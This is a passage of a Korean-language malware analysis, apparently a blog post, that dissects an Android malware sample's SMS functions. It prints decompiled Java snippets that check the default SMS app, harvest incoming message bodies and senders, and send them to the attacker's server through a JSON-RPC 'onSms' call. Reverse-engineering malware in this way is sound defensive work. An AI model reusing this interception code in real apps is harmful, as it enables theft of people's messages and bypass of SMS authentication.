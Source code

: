 ⑦ **SMS관련**

아래는 기기가 기본 SMS 앱을 사용하는지 체크하는 부분입니다. 만약 기본 SMS앱을 악성 앱으로 바꾼다면, SMS 인증 우회는 물론이고, 메시지 내용 탈취, 발신, 수신이 자유로울 것입니다.

```java
v9_1[5] = Boolean.valueOf(i.a(v5_6, Telephony.Sms.getDefaultSmsPackage(v7_4)));
```

![17.png](/assets/2023-11-15-Android-malware-사마귀-해부학/17.png)

공격자는 SMS 메시지가 수신될 때, 발신자의 주소와 timestamp내용을 HashMap으로 저장하며 수집합니다.

```java
// 1. 수신된 메시지들 수집
v0_6 = (Object[])arg27.getExtras().get("pdus");
v12 = v0_6[v10];

// 2. 수신된 메시지를 기반으로 새로운 SMS 데이터 생성
SmsMessage v12_1 = SmsMessage.createFromPdu(((byte[])v12));

// 3. 수신된 메시지의 내용 수집
String v13 = v12_1.getDisplayMessageBody();

// 4. 수신된 메시지의 발신 주소 수집
String v14 = v12_1.getDisplayOriginatingAddress();

// 5. 발신자 주소(key)-메시지의 timestamp(value) 로 저장
v3_1.put(v14, Long.valueOf(v12_1.getTimestampMillis()));

// 6. 발신자 주소(key)-메시지 내용(value)로 저장
 v4_2.put(v14, v12_2.toString());
```

JSON-RPC로 `onSms` method와 수집한 내용을 공격자 서버로 전달합니다.

```jsx
// s = "onSms"
// 1. Json-RPC로 onSms mthod 실행
Map map0 = b0.f(new b[]{c.a("jsonrpc", "2.0"), c.a("method", s)});

// 2. 수집한 내용을 params로 전달
map0.put("params", object0);
```
